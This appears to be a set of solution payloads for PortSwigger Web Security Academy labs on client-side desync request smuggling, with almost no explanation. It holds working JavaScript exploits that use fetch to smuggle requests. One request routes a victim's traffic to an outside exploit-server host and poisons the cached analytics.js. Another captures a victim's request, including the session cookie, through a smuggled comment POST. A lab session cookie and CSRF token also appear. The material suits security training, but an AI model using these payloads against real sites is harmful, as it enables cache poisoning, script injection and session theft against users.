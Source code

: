 **payload for exploit server**


```htm
alert(document.cookie);
/*
<script>
    const labURL = "https://0a94007c0361999bc1c73a5a007f00e6.web-security-academy.net";
    const exploitHost = "exploit-0a98005003e69928c1da39a301700077.exploit-server.net";

    if(window.name != 'skip'){
        window.name = 'skip';
        fetch(`${labURL}/..%2f`, { method: 'POST', body: `GET //${exploitHost}/eXpLoIt HTTP/1.1\r\nFoo: x`, credentials: 'include', mode: 'no-cors' }).then(() => {location=`${labURL}/resources/js/analytics.js`} );
    } else {
        window.name = '';
        location = `${labURL}/login`;
    }
</script>
*/
```



**payload check in browser:**
```js
fetch('https://0a94007c0361999bc1c73a5a007f00e6.web-security-academy.net/..%2f', {
        method: 'POST',
        body: 'GET //exploit-0a98005003e69928c1da39a301700077.exploit-server.net/EXPLOIT HTTP/1.1\r\nFoo: x',
        mode: 'no-cors',
        credentials: 'include',
    }).then(() => {
        fetch('https://0a94007c0361999bc1c73a5a007f00e6.web-security-academy.net/resources/js/analytics.js', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```
















// last lab:
fetch('https://0a94007c0361999bc1c73a5a007f00e6.web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a94007c0361999bc1c73a5a007f00e6.web-security-academy.net\r\nCookie: session=M50GTVOaKy3I9DpPA6y5pbOCj5ZfoJ31\r\nContent-Length: 118\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=qiI9wHaodYWO4kWrfby5KkYGpSC8wUZo&postId=10&name=test&email=test%40test.com&website=http%3A%2F%2Ftest.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a94007c0361999bc1c73a5a007f00e6.web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})


// https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-browser-cache-poisoning-via-client-side-desync